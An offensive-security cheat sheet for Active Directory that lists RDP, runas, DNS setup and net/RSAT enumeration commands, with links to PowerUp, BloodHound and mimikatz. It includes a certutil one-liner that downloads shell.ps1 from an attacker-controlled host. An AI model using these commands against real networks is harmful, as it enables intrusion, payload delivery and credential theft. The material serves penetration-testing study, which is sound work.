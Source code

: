 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST`
In order to add a shared drive with `xfreedrp`, use `/drive:tmp,/tmp`.


## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


### Enum in CMD

use net to enumerate eg. users, groups and so on:
```
net user ${user} /domain
```

or the password policy for the domain: `net accounts /domain`


Has to be done from a domain-joined machine though, and it does not necessarily show the full output.


Enumerating SMB shares from the DC can be done with:

```
net view \\dc01 /all
```

### Enum in Powershell

AD-RSAT tooling gives us a lot of options.
Install it by running:

```
Install-WindowsFeature -Name "RSAT-AD-PowerShell" -IncludeAllSubFeature
```

from an admin powershell.

Similar to the `net` tool, powershell has cmdlets like `GetADUser`, `Get-ADGroup` or more generically, `GetAD-Object` 
A good flag to use is `-Properties` with these, which takes a comma-separated list, or wildcards `*`


### Enum and much else: PowerSploit

[PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Bloodhound

[Bloodhound](https://github.com/BloodHoundAD/BloodHound) with Sharphound can also be used for a graph overview of the domain.
It has the drawback of being quite noisy though.

## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```

grep equivalent for cmd: `findstr`

remove a file with force: `del /f`

